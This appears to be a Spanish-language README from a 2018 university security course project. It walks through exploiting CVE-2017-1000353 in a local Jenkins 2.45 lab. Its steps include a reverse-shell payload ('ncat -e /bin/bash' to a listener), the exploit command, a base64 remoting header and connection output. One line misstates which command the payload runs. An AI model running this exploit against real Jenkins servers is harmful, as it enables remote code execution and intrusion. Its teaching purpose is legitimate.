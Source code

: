 # Seguridad informatica - UTN

## Trabajo práctico 2° Cuatrimestre 2018 - Grupo 2

## Integrantes

- Alejandro Gonzalez
- Facundo Lavagnino
- Tomás Altrui

# Exploit para CVE-2017-1000353 - Jenkins

## Herramientas necesarias

- Java JDK
- Ncat
- Python 3

## Preparación

 1. Clonar el repositorio (e ingresar en el):
 
    ```$ git clone https://github.com/AltTomas/siutn-tp-grupo-2-2018.git && cd siutn-tp-grupo-2-2018```

 2. Iniciar Jenkins:
    ```$ java -jar jenkins_2.45.war```

3. Ingresar a ```localhost:8080/cli o 127.0.0.1:8080/cli``` para asegurarse que inició correctamente (Solo ingresar la clave que pide al iniciar, no es necesario configurar plugins)
4. Iniciar una sesión de Ncat para escuchar en el puerto 4444 (o el que deseen):
```ncat -v -l -p 4444```

5. Crear el objeto de serialización de Java:
 ```bash generate_java_serialization_data.sh "ncat -e /bin/bash 127.0.0.1 4444"```

## Ejecución del exploit y explicación

Para ejecutar el exploit basta con el siguiente comando:

```python exploit.py http://127.0.0.1:8080/cli java_serialization_data.bin```

Este script de Python inicia una sesión con el CLI de Jenkins realizando un POST al CLI en modo "download":
```
download - Starting new HTTP connection (1): 127.0.0.1:8080
download - http://127.0.0.1:8080 "POST /cli HTTP/1.1" 200 None
```

Luego realiza un "upload" con el payload que contiene como head el objeto serializado en base 64 que especifica la funcionalidad del cliente

```'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='```

y el objeto de serialización de Java que contiene nuestro código a ejecutar, que en este caso es: ```ncat -v -l -p 4444```

En caso que nuestro exploit se haya ejecutado de manera satisfactoria, deberíamos ver en la consola que levantamos nuestra sesión de Ncat un mensaje de conexión:

```
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57496.
```
